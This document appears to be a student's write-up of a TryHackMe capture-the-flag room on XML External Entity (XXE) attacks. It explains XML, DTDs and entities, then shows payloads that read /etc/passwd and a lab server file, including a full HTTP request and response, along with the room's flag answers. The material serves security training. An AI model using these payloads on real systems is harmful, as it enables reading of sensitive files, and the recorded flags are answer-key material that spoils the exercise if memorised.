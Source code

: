 # Task 11 - XXE - Day 5: SOC-mas XX-what-ee?

#xxe #xml 

## Learning Objectives

- Understand the basic concepts related to XML
- Explore XML External Entity (XXE) and its components
- Learn how to exploit the vulnerability
- Understand remediation measures
## Important Concepts

**Extensible Markup Language (XML)**

XML is a commonly used method to transport and store data in a structured format that humans and machines can easily understand. Consider a scenario where two computers need to communicate and share data. Both devices need to agree on a common format for exchanging information. This agreement (format) is known as `XML`. You can think of XML as a digital filing cabinet. Just as a filing cabinet has folders with labelled documents inside, XML uses `tags` to label and organise information. These tags are like folders that define the type of data stored. This is what an XML looks like, a simple piece of text information organised in a structured manner: 

```javascript
<people>
   <name>Glitch</name>
   <address>Wareville</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

In this case, the tags  `people`, `name`, `address`, etc are like folders in a filing cabinet, but now they store data about Glitch. The content inside the tags, like "Glitch," "Wareville," and "123-4567" represents the actual data being stored. Like before, the key benefit of XML is that it is easily shareable and customisable, allowing you to create your own tags.


**Document Type Definition (DTD)**

Now that the two computers have agreed to share data in a common format, what about the structure of the format? Here is when the DTD comes into play. A DTD is a set of **rules** that defines the structure of an XML document. Just like a database scheme, it acts like a blueprint, telling you what elements (tags) and attributes are allowed in the XML file. Think of it as a guideline that ensures the XML document follows a specific structure.

For example, if we want to ensure that an XML document about `people` will always include a `name`, `address`, `email`, and `phone number`, we would define those rules through a DTD as shown below:  

```javascript
<!DOCTYPE people [
   <!ELEMENT people(name, address, email, phone)>
   <!ELEMENT name (#PCDATA)>
   <!ELEMENT address (#PCDATA)>
   <!ELEMENT email (#PCDATA)>
   <!ELEMENT phone (#PCDATA)>
]>
```

In the above DTD, **<!ELEMENT>**  defines the elements (tags) that are allowed, like name, address, email, and phone, whereas `#PCDATA` stands for parsed `people` data, meaning it will consist of just plain text.

**Entities**

So far, both computers have agreed on the format, the structure of data, and the type of data they will share. Entities in XML are placeholders that allow the insertion of large chunks of data or referencing internal or external files. They assist in making the XML file easy to manage, especially when the same data is repeated multiple times. Entities can be defined internally within the XML document or externally, referencing data from an outside source. 

For example, an external entity references data from an external file or resource. In the following code, the entity `&ext;` could refer to an external file located at "`http://tryhackme.com/robots.txt`", which would be loaded into the XML, if allowed by the system:

```javascript
<!DOCTYPE people [
   <!ENTITY ext SYSTEM "http://tryhackme.com/robots.txt">
]>
<people>
   <name>Glitch</name>
   <address>&ext;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

We are specifically discussing external entities because it is one of the main reasons that XXE is introduced if it is not properly managed.

**XML External Entity (XXE)**

After understanding XML and how entities work, we can now explore the XXE vulnerability. XXE is an attack that takes advantage of **how** **XML parsers handle external entities**. When a web application processes an XML file that contains an external entity, the parser attempts to load or execute whatever resource the entity points to. If necessary sanitisation is not in place, the attacker may point the entity to any malicious source/code causing the undesired behaviour of the web app.

For example, if a vulnerable XML parser processes this external entity definition:

```javascript
<!DOCTYPE people[
   <!ENTITY thmFile SYSTEM "file:///etc/passwd">
]>
<people>
   <name>Glitch</name>
   <address>&thmFile;</address>
   <email>glitch@wareville.com</email>
   <phone>111000</phone>
</people>
```

Here, the entity `&thmFile;` refers to the sensitive file `/etc/passwd` on a system. When the XML is processed, the parser will try to load and display the contents of that file, exposing sensitive information to the attacker.  

In the upcoming tasks, we will examine how XXE works and how to exploit it.



## Answer the questions below

### What is the flag discovered after navigating through the wishes?
```
POST /wishlist.php HTTP/1.1
Host: 10.10.24.156
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/xml
Content-Length: 220
Origin: http://10.10.24.156
Connection: keep-alive
Referer: http://10.10.24.156/product.php?id=1
Priority: u=0


<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY payload SYSTEM "/var/www/html/wishes/wish_15.txt"> ]>
<wishlist>
	<user_id>1</user_id>
	<item>
	       <product_id>&payload;</product_id>
	</item>
</wishlist>


HTTP/1.1 200 OK
Date: Thu, 05 Dec 2024 18:51:33 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 224
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

The product ID: Wish #15
Name: Mayor Malware
Address: Test
---------------------------------------
Product: Waredy Cane
Quantity: 1
---------------------------------------
PS: The flag is THM{Brut3f0rc1n6_mY_w4y}
is invalid.
```

 THM{Brut3f0rc1n6_mY_w4y}

### What is the flag seen on the possible proof of sabotage?

```
http://10.10.24.156/CHANGELOG

commit 3f786850e387550fdab836ed7e6dc881de23001b (HEAD -> master, origin/master, origin/HEAD)
Author: Mayor Malware - Wareville <mayor@wareville.org>
Date:   Wed Dec 4 21:24:22 2024 +0200

    Fixed the wishlist.php page THM{m4y0r_m4lw4r3_b4ckd00rs}

commit 89e6c98d92887913cadf06b2adb97f26cde4849b (tag: v1.0.0)
Author: Software - Wareville <software@wareville.org>
Date:   Thu Dec 4 14:45:18 2024 +0200

    Almost done with the wishlists page, needs to handle XML parsing

commit 2b66fd261ee5c6cfc8de7fa466bab600bcfe4f69
Author: Software - Wareville <software@wareville.org>
Date:   Tue Dec 2 15:20:57 2024 +0200

    Finally done with the landing page and initial CSS

commit e983f374794de9c64e3d1c1de1d490c0756eeeff
Author: Software - Wareville <software@wareville.org>
Date:   Tue Dec 2 15:19:33 2024 +0200

    Initial commit

```